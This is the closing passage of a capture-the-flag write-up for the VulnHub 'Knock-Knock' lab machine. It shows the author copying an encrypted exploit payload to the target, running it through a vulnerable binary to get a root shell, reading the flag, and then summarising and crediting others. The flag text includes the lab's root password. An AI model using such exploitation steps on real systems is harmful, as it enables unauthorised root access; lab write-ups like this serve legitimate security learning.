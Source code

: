 Woohooooo, so it works locally on our Kali! All we have left to do is copy our encrypted payload onto knock-knock and run it there.

```
root@kali:~# scp exploit.out.tfc jason@172.16.246.133:.
jason@172.16.246.133's password: 
exploit.out.tfc                               100% 4306     4.2KB/s   00:00    
```

```
jason@knockknock:~$ ./tfc exploit.out.tfc pwned.tfc
# whoami
root
# cd /root
# ls
crpt.py  server.py  start.sh  the_flag_is_in_here
# cd the_flag_is_in_here
# ls
qQcmDWKM5a6a3wyT.txt
# cat *    
 __                         __              __                         __      ____ 
|  | __ ____   ____   ____ |  | __         |  | __ ____   ____   ____ |  | __ /_   |
|  |/ //    \ /  _ \_/ ___\|  |/ /  ______ |  |/ //    \ /  _ \_/ ___\|  |/ /  |   |
|    <|   |  (  <_> )  \___|    <  /_____/ |    <|   |  (  <_> )  \___|    <   |   |
|__|_ \___|  /\____/ \___  >__|_ \         |__|_ \___|  /\____/ \___  >__|_ \  |___|
     \/    \/            \/     \/              \/    \/            \/     \/       

Hooray you got the flag!

Hope you had as much fun r00ting this as I did making it!

Feel free to hit me up in #vulnhub @ zer0w1re

Gotta give a big shout out to c0ne, who helpped to make the tfc binary challenge,
as well as rasta_mouse, and recrudesce for helping to find bugs and test the VM :)

root password is "qVx4UJ*zcUdc9#3C$Q", but you should already have a shell, right? ;)
# 
```

Summary
-------

Pretty awesome challenge! Really exercised my brain cells and I'm glad I came up with a simple method of exploiting it without going into reverse engineering of the encryption mechanism.

I have actually started reversing it and got a fair bit into it, but then got this core dump idea and decided to write it up this way.

I saw other guys reverse engineered the encryption mechanism and got it working as well, I'd recommend for you to go and check out what [leonjza](https://leonjza.github.io/blog/2014/10/14/knock-knock-whos-there-solving-knock-knock/) and [barrebas](http://barrebas.github.io/blog/2014/10/14/knock-knock-knocking-on-roots-door/) did!

Again, awesome challenge - big thanks to [VulnHub](http://vulnhub.com) and [zer0w1re](https://twitter.com/zer0w1re)!

